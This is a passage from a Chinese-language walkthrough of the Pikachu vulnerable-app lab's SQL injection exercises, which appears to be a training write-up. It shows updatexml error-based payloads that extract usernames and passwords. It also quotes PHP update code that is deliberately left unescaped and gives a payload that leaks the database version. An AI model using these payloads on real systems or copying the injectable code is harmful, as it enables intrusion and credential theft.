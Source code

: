 老规矩,改 limit 后的数字

数据 `1' or updatexml(1,concat(0x7e,(select username from users limit 0,1)),0) or'')#`

![](../../../../assets/img/安全/实验/Misc/pikachu/48.png)

数据 `1' or updatexml(1,concat(0x7e,(select password from users limit 0,1)),0) or'')#`

![](../../../../assets/img/安全/实验/Misc/pikachu/49.png)

下面测试 update

**服务器端核心代码**
```php
if(isset($_POST['submit'])){
    if($_POST['sex']!=null && $_POST['phonenum']!=null && $_POST['add']!=null && $_POST['email']!=null){
//        $getdata=escape($link, $_POST);

        //未转义,形成注入,sql操作类型为update
        $getdata=$_POST;
        $query="update member set sex='{$getdata['sex']}',phonenum='{$getdata['phonenum']}',address='{$getdata['add']}',email='{$getdata['email']}' where username='{$_SESSION['sqli']['username']}'";
        $result=execute($link, $query);
        if(mysqli_affected_rows($link)==1 || mysqli_affected_rows($link)==0){
            header("location:sqli_mem.php");
        }else {
            $html1.='修改失败,请重试';

        }
    }
}
```

**漏洞利用**

版本 `1'or updatexml(2,concat(0x7e,(version())),0) or'' where username = <注意!!!这里是你的用户名>;#`

例如我的: `1'or updatexml(2,concat(0x7e,(version())),0) or'' where username = 123;#`

![](../../../../assets/img/安全/实验/Misc/pikachu/50.png)
